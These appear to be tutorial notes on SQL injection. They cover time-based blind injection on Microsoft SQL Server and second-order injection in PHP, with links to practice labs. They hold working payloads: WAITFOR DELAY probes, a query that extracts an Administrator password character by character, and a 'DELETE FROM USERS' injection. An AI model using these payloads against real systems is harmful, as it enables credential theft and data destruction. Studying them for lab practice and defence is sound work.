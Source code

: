 In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays conditionally, depending on an injected condition. Because SQL queries are generally processed synchronously by the application, delaying the execution of an SQL query will also delay the HTTP response. This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received.

The techniques for triggering a time delay are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to test a condition and trigger a delay depending on whether the expression is true:

`'; IF (1=2) WAITFOR DELAY '0:0:10'--`
`'; IF (1=1) WAITFOR DELAY '0:0:10'--`

The first of these inputs will not trigger a delay, because the condition 1=2 is false. The second input will trigger a delay of 10 seconds, because the condition 1=1 is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

`'; IF (SELECT COUNT(username) FROM Users WHERE username = 'Administrator' AND SUBSTRING(password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

### TASKS

https://portswigger.net/web-security/sql-injection/blind/lab-time-delays

https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval

If you want more you can access [this](https://portswigger.net/web-security/sql-injection/blind) link and go to this section to solve the tasks: _**Exploiting blind SQL injection using out-of-band (OAST) techniques**_


### Second Order SQL Injection

`CREATE TABLE USERS ( userId serial PRIMARY KEY, firstName TEXT )`

`$firstname = someEscapeFunction($_POST[“firstName”]);`
`$SQL = “INSERT INTO USERS (firstname) VALUES (‘{$firstName }’);”;`
`someConnection->execute($SQL);`

if payload would be: `asd’); DELETE FROM USERS; //`

Now, if someone would want to move firstName from USERS to SOME and would do this:

`$userid = 42; `
`$SQL = “SELECT firstname FROM USERS WHERE (userId={$userid})”; `

`$RS = con->fetchAll($SQL); `
`$firstName = $RS[0][“firstName”];`

Finally it will be inserted without escaping:

`$SQL = “INSERT INTO SOME VALUES (‘{$firstName}’);”;`

and the malicious query would be:

`INSERT INTO SOME VALUES (‘ bla’); DELETE FROM USERS; //`

We clearly see that `DELETE FROM USERS;` would be executed.
